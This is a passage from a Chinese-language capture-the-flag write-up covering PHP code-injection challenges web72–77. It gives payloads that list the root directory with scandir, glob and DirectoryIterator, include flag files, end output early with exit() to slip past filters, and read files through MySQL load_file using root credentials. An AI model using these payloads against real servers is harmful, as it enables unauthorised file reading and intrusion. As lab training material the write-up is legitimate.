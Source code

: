 那么可以用`exit()/die()`提前结束，这样就不会将字符替换为问号

payload：
```
c=var_export(scandir('/'));exit();
c=include("/flag.txt");die();
```
---
## web73-74
ban了scandir用glob 利用数组遍历的方法输出根目录下的所有文件
```
c=
$a=new DirectoryIterator('glob:///*');  //php使用glob遍历文件夹
foreach($a as $f){
echo($f->__toString()." ");
}
```
---
## web75-76
这题连include()都用不了，还是看师傅的博客，才知道要用sql语句来读取数据库文件

payload:
```
c=?><?php 
	$a=new DirectoryIterator("glob:///*");
	foreach($a as $f){
	echo($f -> __toString().'  ');
	}
	exit();
?>
//web75 flag在 /flag36.txt；web76 flag在 /flag36d.txt

c=
try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
        'root');

    foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {
        echo ($row[0]) . "|";
    }
    $dbh = null;
} catch (PDOException $e) {
    echo $e->getMessage();
    exit(0);
}
exit(0);
//我看不太懂，只能先抄个答案了
```

---
## web77
>FFI（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。PHP的FFI扩展就是一个让你在PHP里调用C代码的技术。
